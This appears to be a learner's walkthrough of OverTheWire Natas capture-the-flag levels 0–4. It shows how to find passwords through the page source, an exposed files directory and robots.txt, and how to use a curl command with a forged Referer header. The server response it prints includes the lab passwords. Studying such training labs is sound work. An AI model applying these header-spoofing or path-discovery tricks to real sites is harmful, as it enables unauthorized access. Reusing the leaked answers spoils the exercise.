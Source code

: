 # Level 0
Solution:
after you open link, open inspector check html code there you can find password

# Level 1
Solution in Level 1 is same for Level 0

# Level 2
So solution in this case is a bit hard to explain but basicly 
You should find an image tag like `<img src="file/pixel.png>` now you see that comes from database with this link `file/pixel.png` 
it means that you should you it as vulnerabilities to get key this is how:
`http://natas2.natas.labs.overthewire.org/files/`
there you find password for the next level

# Level 3
So get key from this problem we sould search for (google robots)[https://developers.google.com/search/docs/crawling-indexing/robots/create-robots-txt].
Bassicaly its `robots.txt` file that locks or allows access for all or a specific path to your domain
`http://natas3.natas.labs.overthewire.org/robots.txt` ---> here you get a hidden path `/s3cr3t/` and go to it

`http://natas3.natas.labs.overthewire.org/s3cr3t`--> key should be here

# Level 4
```
curl \                                                                                                                                                                               
  -H "Authorization: Basic $(echo -n 'natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ' | base64)" \
  -H "Referer: http://natas5.natas.labs.overthewire.org/" 
  http://natas4.natas.labs.overthewire.org/     

<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "QryZXc2e0zahULdHrtHxzyYkj59kUxLQ" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access granted. The password for natas5 is 0n35PkggAPm2zbEpOU802c0x0Msn1ToK #your pass #key to next level
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```
